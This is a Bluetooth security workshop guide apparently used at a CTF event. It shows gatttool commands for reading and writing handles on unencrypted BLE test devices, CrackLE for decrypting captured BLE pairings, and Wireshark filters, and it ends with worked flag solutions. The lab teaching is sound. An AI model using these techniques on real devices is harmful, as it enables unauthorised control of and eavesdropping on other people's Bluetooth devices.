

# Frequency Analysis: An Introduction to Bluetooth Security

## Table of Contents:
- [Frequency Analysis: An Introduction to Bluetooth Security](#frequency-analysis-an-introduction-to-bluetooth-security)
  - [Table of Contents:](#table-of-contents)
  - [Workshop Introduction](#workshop-introduction)
  - [Live Bluetooth Attacks](#live-bluetooth-attacks)
    - [Overview](#overview)
    - [Setup](#setup)
      - [AttifyOS](#attifyos)
      - [ESP32 with BLE CTF](#esp32-with-ble-ctf)
    - [GATTacker 101](#gattacker-101)
      - [Testing the GATTacker Setup](#testing-the-gattacker-setup)
    - [Challenges](#challenges)
  - [Cracking Challenges](#cracking-challenges)
    - [Overview](#overview-1)
    - [Setup](#setup)
      - [CrackLE Setup](#crackle-setup)
      - [Setting Up Wireshark](#setting-up-wireshark)
    - [CrackLE 101](#crackle-101)
    - [Wireshark 101](#wireshark-101)
      - [Display Filters](#display-filters)
      - [Exporting Objects](#exporting-objects)
    - [Challenge](#challenge)
- [Interested in pentesting IoT devices? Apply to Security Compass!](#interested-in-pentesting-iot-devices-apply-to-security-compass)
- [Appendix A](#appendix-a)
  - [Setting Up Your Own "Live Bluetooth Attacks" CTF](#setting-up-your-own-%22live-bluetooth-attacks%22-ctf)
- [Appendix B](#appendix-b)

<a name="workshop-overview"></a>

## Workshop Introduction

Welcome to Security Compass's Bluetooth hacking lab! This workshop contains a number of challenges designed to teach the basic principles of Bluetooth security. There are a ton of challenges here to work through. Depending on time and technical difficulties, you may be able to accomplish them all!

The challenges have been divided into two sections: Live Bluetooth Attacks and Cracking Challenges. Live Bluetooth Attacks introduces attacks that can be performed to remotely command a victim Bluetooth device. Cracking Challenges demonstrates how easy it is to retrieve plaintext data from a number of different Bluetooth configurations.

The challenges can be completed in any order, but we advise that you start with the live challenges because you have assistants who can help debug technical issues that may come up. If you don't finish all the challenges, don't worry! The cracking challenges can be completed offline, and we've included an appendix with steps on setting up your own live Bluetooth CTF!

Best of luck, and have fun!

<a name="live-attacks"></a>

## Live Bluetooth Attacks


<a name="live-overview"></a>

### Overview

Some students might think that, just because a pairing process has been configured, malicious commands can't be sent to that device! They'd be wrong. As long as no encryption has been enabled, tools such as GATTacker can allow anyone to remotely connect and send commands to the victim device! This set of challenges demonstrates how to do just that.

A brief description of each of the sub-sections follows:
* Setup: A walkthrough of how to get set up with GATTacker
* GATTacker 101: How to use the tool
* Challenges: A walkthrough of a popular Bluetooth CTF platform

<a name="live-setup"></a>

### Setup

The live portion of this workshop consists of two parts: the virtualized operating system you'll be testing from and the target device.

#### AttifyOS
The testing environment is where you're testing the devices from. The environment we'll be using is the AttifyOS operating system. You can download it at the following URL, and it's been tested with the latest VMware and VirtualBox versions:

**Credentials: oit/attify123**

```
https://drive.google.com/file/d/0Bz-2-OHt_4gQTkNYb21RRXBuNlE/view
```

#### ESP32 with BLE CTF

You should have received a Bluetooth dongle:


You should also have received an ESP32 microcontroller:


To interact with your ESP32 microcontroller, you'll need the associated MAC address. The MAC addresses can be found below:
* Device A: 24:6F:28:7A:BA:72
* Device B: 24:6F:28:7A:A2:BA
* Device C: 24:6F:28:7A:9E:12
* Device D: 24:6F:28:7A:A3:A2
* Device E: 24:6F:28:7A:FC:2E
* Device F: 24:6F:28:7A:AC:22

<a name="gattacker"></a>

### GATTacker 101

GATTacker is a suite of tools designed to interact with Bluetooth devices! The tools can command a Bluetooth dongle to connect, read, and write to any arbitrary handle that a Bluetooth device operates. Unfortunately, the tool works only on Bluetooth devices that aren't configured with encryption.

A few sample commands can be found below:

* Connecting interactively to a Bluetooth device: `gatttool -b $MAC_ADDRESS -I `

* Reading an arbitrary value from a Bluetooth handle: `gatttool -b $MAC_ADDRESS --char-read -a $HANDLE`

* Writing an arbitrary value to a Bluetooth handle (THE VALUE MUST BE HEX ENCODED): `gatttool -b $MAC --char-write-req -a $HANDLE -n $VALUE-TO-WRITE`


#### Testing the GATTacker set-up

Ensure your Bluetooth adapter is working:

```
sudo hciconfig -a
```

**Note: If you receive `Can't read local name on hci0: Connection timed out (110)`, try again.**


See local Bluetooth traffic:

```
sudo hcitool lescan
```


Create an environment variable so you don't need to keep copying and pasting. :)

```
export MAC="YOUR DEVICE ID"
```

Connect to your Bluetooth device.

```
gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
```


Interact with your Bluetooth device by submitting a flag:

```
// Submit the flag
gatttool -b $MAC --char-write-req -a 0x002c -n $(echo -n "12345678901234567890"|xxd -ps)

// Ensure the flag was submitted
gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
```


### Challenges

With GATTacker, you're off to the races! While there are 20 challenges in total, you don't have to complete all of them. But if you want to, go for it :)

**Show us that you can interact with the Bluetooth device for an ISS CTF flag!**

#### Hints

##### Flag 2

Check out the ASCII value of handle `0x002e` and submit it to the flag submission handle, `0x002c`. If you are using gatttool, make sure you convert it to hex with xxd. If you are using bleah, you can send it as a string value.

##### Flag 3

Check out the ASCII value of handle `0x0030`. Do what it tells you, and submit the flag that you find to `0x002c`.

##### Flag 4

Bluetooth GATT services provide some extra device attributes. Try finding the value of `Generic Access` > `Device Name`.

##### Flag 5

Read handle `0x0032` and do what it says. Notice that it is not telling you to write to the flag handle as you have been. When you find the flag, go ahead and write it to the flag handle that you have used in the past flags.

<a name="cracking"></a>

## Cracking Challenges

<a name="cracking-overview"></a>

### Overview

Although secure encryption algorithms are implemented with Bluetooth, there are flaws that undermine the security of the protocol. 3 out of 4 pairing protocols are configured with an easily brute-forcible PIN (a combination of 6 digits, which is only 10^6 or 1,000,000 combinations). If the initial pairing process is captured (via Ubertooth or a similar tool), the entire Bluetooth communication stream can be decrypted in a matter of seconds. This workshop leverages a tool called Crack Low Energy (CrackLE) to demonstrate just how easy it is!

A brief description of each of the sub-sections follows:
* Setup: A walkthrough of how to set up CrackLE and Wireshark (to view the decrypted data)
* CrackLE 101: A walkthrough of how to use the CrackLE tool
* Wireshark 101: A walkthrough of how to use Wireshark to view the decrypted data
* Challenges: A handful of encrypted Bluetooth data streams to be cracked!

<a name="cracking-setup"></a>

### Setup

#### CrackLE Setup

Update your system:

```bash
sudo apt-get update
```

Upgrade packages on your system:

```bash
sudo apt-get upgrade -y
```

Install required packages:

```bash
sudo apt-get install -y libpcap0.8-dev
```

Download CrackLE:

```bash
git clone https://github.com/mikeryan/crackle
```

Compile CrackLE:

```bash
cd crackle; make
```

#### Setting Up Wireshark

If you're using Kali, Wireshark should be installed already.

If not, install Wireshark:

```bash
sudo apt-get install -y wireshark
```

For whatever reason, Wireshark doesn't understand Bluetooth out-of-the-box. Attempting to open a Bluetooth packet capture will result in the following error message:

```
User encapsulation not handled: DLT=147, check your Preferences->Protocols->DLT_USER
```

To fix this issue, perform the following steps:

1. Click Edit > Preferences
2. Click Protocols > DLT_USER
3. Click Edit (Encapsulations Table)
4. Click New
5. Under DLT, select "User 0 (DLT=147)" (adjust this selection as needed if the error message showed a different DLT number than 147)
6. Under Payload Protocol, enter "btle"


7. Click OK
8. Click OK


<a name="crackle-101"></a>

### CrackLE 101

CrackLE is a tool that exploits a flaw in the BLE pairing process. The flaw allows an attacker to guess or very quickly brute-force the TK (Temporary Key). From the TK, the Short Term Key (STK) and later the Long Term Key (LTK) can be derived. All communications between the primary and the secondary can be decrypted.

Example usage:

```
crackle -i input.pcap -o decrypted.pcap
```

<a name="cracking-wireshark-101"></a>

### Wireshark 101

* Wireshark can be intimidating at first, but it's super easy once you get the hang of it!

* The common filetypes associated with the application are `.pcap` and `.pcapng`.

* After you've opened your `.pcap` file, there are several useful tips and tricks you can use, such as using display filters and Wireshark's processing to automatically export objects from captures!

#### Display Filters

* In the top-left area of Wireshark, there's a search-bar styled input field that allows you to apply filters to your packet capture.



* Filters help you to, well, filter what packets are seen on the screen!

* Some examples include:

  * Including only ICMP traffic: `tcp.port eq 25 or icmp`

  * Showing only traffic between two IPs on a network: `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

  * Displaying a certain protocol (e.g. smb, dns): `smb` or `dns`

* Here are some display filters to make Bluetooth captures easier to navigate:

  * Only connection requests and non-zero data packets: `btle.data_header.length > 0 || btle.advertising_header.pdu_type == 0x05`

  * Only attribute read responses, write requests, and notifications: `btatt.opcode in { 0x0b 0x12 0x1b }`

* Also, Wireshark will tell you whether your display filter makes sense!

  * A valid filter: 

  * An invalid filter: 

#### Exporting Objects

Because the Bluetooth protocol is seldom used for file transfer, it likely won't be used here. However, this feature is handy for examining typical network packet captures.

To find out whether Wireshark will allow you to export files from the captured packet, perform the following steps:

1. Click `File` > `Export Objects` > The desired protocol (e.g. `HTTP`)


2. If there are any files to export, highlight them and click `Save`


3. Done!

<a name="cracking-challenge"></a>

### Challenge

With Wireshark and CrackLE, you're off to the races!

Challenge yourself and see whether you can determine the encryption keys for each of the Bluetooth device pairings! Verify that you've cracked packet capture by walking through the decrypted Bluetooth packets! Compare the results!

Challenges can be found in the `./challenges` subdirectory.

**Provide the encryption keys to an assistant for an ISS CTF flag!**

<a name="plug"></a>

# Interested in pentesting IoT devices? Apply to Security Compass!

Please visit https://securitycompass.com/careers/ to check out available positions!


<a name="appendix-a"></a>

# Appendix A

<a name="live-ctf-setup"></a>

## Setting Up Your Own "Live Bluetooth Attacks" CTF

1) Set up the development environment. Make sure you are running on a reasonably up to date system (AttifyOS 1.3 uses an old version of OpenSSL that will give you problems): https://docs.espressif.com/projects/esp-idf/en/latest/esp32/get-started/#setup-toolchain

2) Clone BLE_CTF:

```
git clone https://github.com/hackgnar/ble_ctf
```

3) Change to the directory of the Git repo

```
cd ble_ctf
```

4) Use the following command to enable Bluetooth (Component Config > Bluetooth > Bluetooth):

```
make menuconfig
```

5) Delete the following lines in `main/gatts_table_creat_demo.c`:

```
static const uint8_t heart_measurement_ccc[2]      = {0x00, 0x00};
static const uint8_t char_value[4]                 = {0x11, 0x22, 0x33, 0x44};
```

6) Compile the firmware
```
make
```

7) Plug in your ESP32 via USB. **Note: This might take multiple attempts! Try starting the installation process, then clicking the "reset" button on the ESP32.**

```
make flash
```

# Appendix B
CTF Solutions:
Flag #2:
```
$ gatttool -b $MAC --char-read -a 0x002e |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
d205303e099ceff44835

$ gatttool -b $MAC --char-write-req -a 0x002c -n $(echo -n "d205303e099ceff44835"|xxd -ps)

$ gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
Score:2 /20
```

Flag #3:
```
$ echo -n "BLECTF" | md5sum
5cd56d74049ae40f442ece036c6f4f06  -

$ gatttool -b $MAC --char-write-req -a 0x002c -n $(echo -n "5cd56d74049ae40f442ece036c6f4f06"|xxd -ps)

$ gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
Score:3 /20  
```

Flag #4:
```
$ gatttool -b $MAC --char-read -a 0x0016 |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
2b00042f7481c7b056c4b410d28f33cf

$ gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'

$ gatttool -b $MAC --char-write-req -a 0x002c -n $(echo -n "2b00042f7481c7b056c4b410d28f33cf"|xxd -ps)
Characteristic value was written successfully

$ gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
Score:4 /20
```

Flag #5:
```
$ gatttool -b $MAC --char-read -a 0x0032 |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
Write anything here

$ gatttool -b $MAC  --char-write-req -a 0x0032 -n $(echo -n "anything"|xxd -ps)
Characteristic value was written successfully

$ gatttool -b $MAC --char-read -a 0x0032 |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
3873c0270763568cf7aa

$ gatttool -b $MAC --char-write-req -a 0x002c -n $(echo -n "3873c0270763568cf7aa"|xxd -ps)
Characteristic value was written successfully

$ gatttool -b $MAC --char-read -a 0x002a |awk -F':' '{print $2}'|tr -d ' '|xxd -r -p;printf '\n'
Score:5 /20
